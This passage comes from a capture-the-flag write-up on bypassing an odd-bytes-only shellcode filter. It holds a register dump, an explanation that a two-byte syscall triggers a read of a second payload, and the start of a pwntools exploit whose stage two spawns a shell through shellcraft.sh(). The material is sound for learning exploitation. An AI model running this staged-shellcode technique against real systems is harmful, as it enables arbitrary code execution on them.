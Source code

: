 ```python
rdx            0x123412340000      20014852997120
rsi            0x123412340000      20014852997120
rdi            0x0                 0
rbp            0x7fffffffdde0      0x7fffffffdde0
rsp            0x7fffffffddb8      0x7fffffffddb8
r8             0xffffffff          4294967295
r9             0x0                 0
r10            0x32                50
r11            0x246               582
r12            0x7fffffffdef8      140737488346872
r13            0x5555555551c9      93824992235977
r14            0x0                 0
r15            0x7ffff7ffd040      140737354125376
rip            0x123412340000      0x123412340000
...
```
Looking at the registers and thinking about how I could do a read syscall with only odd bytes, I realized the registers are already set up perfectly for a read syscall

read(fd, addr, length)
- syscall number => rax = 0 (read)
- fd => rdi = 0 (stdin)
- addr => rsi = 0x123412340000 (the start of the shellcode allocation)
- length => rdx = 0x123412340000 (a really big number of bytes to read)

This is great! I don't even need to bother setting register values for my read syscall, I just need to execute the syscall instruction

And what do you know, the syscall instruction's bytes are 0xf and 0x5 which are both odd numbers

So to bypass the odd byte restriction on the rest of my shellcode all I have to do is send the syscall instruction's bytes: \0x0f\0x05 which will perform a read into the start of the shellcode allocation, and allow me to send a second shellcode payload without the odd byte restrictions imposed by the challenge

### Writing the Exploit

- - -

I will be using the python pwntools package to write this exploit because it makes process interaction painless and helps with creating shellcode payloads

First I setup the file:
```python
from pwn import *

context.arch = "amd64"
```
Setting context.arch is important for pwntools assembler and shellcode functions

Now I create the two payloads:
```python
stage1 = asm("syscall")
stage2 = asm("nop;" * 2 + shellcraft.sh())
```
asm() is a function from pwntools which takes a string of assembly and returns assembled bytes
